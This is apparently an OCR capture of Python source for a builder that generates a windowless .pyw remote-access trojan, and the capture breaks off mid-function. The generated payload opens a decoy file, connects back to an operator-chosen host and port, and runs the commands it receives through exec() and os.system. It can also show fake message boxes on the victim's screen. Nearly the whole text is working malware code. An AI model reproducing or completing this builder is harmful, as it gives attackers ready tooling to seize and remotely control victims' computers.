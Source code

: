     def builder(name = 'unamed', file = None, host = socket.gethostbyname(socket.getfqdn()), port = 8080):
    
    	time.sleep(1)
    	print(' ')
    	print(f'create: {name}.pyw ')
    	time.sleep(1)
    	print(' ')
    	try:
    		file2 = open('bilder/' + name + '.pyw', 'w')
    	except:
    		os.mkdir('bilder')
    		time.sleep(0.5)
    		file2 = open('bilder/' + name + '.pyw', 'w')
    
    	f = f'''from tkinter import *
    from tkinter import ttk, messagebox
    import time, datetime, socket, os, sys
    os.system('start {file}')
    conn = socket.socket(socket.AF_INET)
    conn.connect(('{host}', {port}))
    while True:
    	data = conn.recv(99999)
    	udata = data.decode('utf-8')
    	exec(udata)
    	if l['name'] == 'message':
    		if l['set'] == 'i':
    			f = open('message.pyw', 'w')
    			f.close()
    			f = open('message.pyw', 'r+')
    			f.write('from tkinter import messagebox\\nmessagebox.showinfo(' + "'" + str(l['message_name']) + "'" + ', ' + "'" + str(l['message_text']) + "'" + ')')
    			f.close()
    			time.sleep(1)
    			os.system('start message.pyw')
    		elif l['set'] == 'e':
    			f = open('message.pyw', 'w')
    			f.close()
    			f = open('message.pyw', 'r+')
    			f.write('from tkinter import messagebox\\nmessagebox.showerror(' + "'" + str(l['message_name']) + "'" + ', ' + "'" + str(l['message_text']) + "'" + ')')
    			f.close()
    			time.sleep(1)
    			os.system('start message.pyw')
    		elif l['set'] == 'w':
    			f = open('message.pyw', 'w')
    			f.close()
    			f = open('message.pyw', 'r+')
    			f.write('from tkinter import messagebox\\nmessagebox.showwarning(' + "'" + str(l['message_name']) + "'" + ', ' + "'" + str(l['message_text']) + "'" + ')')
    			f.close()
    			time.sleep(1)
    			os.system('start message.pyw')
    	elif l['name'] == 'console':
    		try:
    			os.system(l['text'])
    			conn.send(b'complite')
    		except Exception as e:
    			conn.send(str(e).encode('utf-8'))
    	elif l['name'] == 'python':
    		try:
    			exec(l['text'])
    			conn.send(b'complite')
    		except Exception as e: